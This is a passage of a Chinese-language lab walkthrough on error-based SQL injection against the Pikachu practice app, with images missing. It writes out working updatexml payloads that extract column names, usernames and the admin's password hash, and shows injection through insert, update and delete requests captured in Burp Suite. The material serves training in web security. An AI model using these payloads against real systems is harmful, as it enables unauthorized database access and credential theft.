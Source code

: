 kobe' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1)),0)#
![]()
同样的依此类推，得到所有列名。在获取列名后，再来获取数据。

kobe' and updatexml(1,concat(0x7e,(select username from users limit 0,1)),0)#
![]()
获取了第一个用户名，再根据用户名查询密码。

kobe' and updatexml(1,concat(0x7e,(select password from users where username='admin' limit 0,1)),0)#
![]()
获取MD5加密的密文，解密获取明文密码。

"insert/update"注入
点击注册
![]()
一样的方法判断是否有SQL注入漏洞，经过判断之后发现存在SQL漏洞。重点在于怎么构造insert的payload。
![]()
![]()
zzzz' or updatexml(1,concat(0x7e,database()),0) or '
密码随意。点击提交。
![]()
得到数据库名。思路一样把database做替换，得到想要的信息。
update与insert是一模一样的。我们先登录用户。

在这里可能会有人显示不出来信息，可以参考解决方案。 在使用pikachu的时候发现一点问题，好像是由php版本较高导致的不兼容，如图：
![]()
在这里我们打开这个路径，找到第66行，把MYSQL_ASSOC改成MYSQLI_ASSOC，保存文件，刷新网页。就可以啦。
原因：在php7中，MYSQL_ASSOC不再是一个常量，将
MYSQL_ASSOC改为MYSQLI_ASSOC，意思是mysqli的方式提取数组，而不再是mysql
（原因：mysql_fetch_arrayhan函数转为mysqli_fetch_array，参数没有修改）

![]()
这个修改就是通过update。这里就存在update漏洞。我们输入刚刚的payload。
![]()
爆出数据库名称，之后逻辑就一样了。

"delete"注入
删除留言并使用bp抓包
![]()
发送给repeater
![]()
我们可以把id构成闭合。
1 or updatexml(1,concat(0x7e,database()),0)
![]()
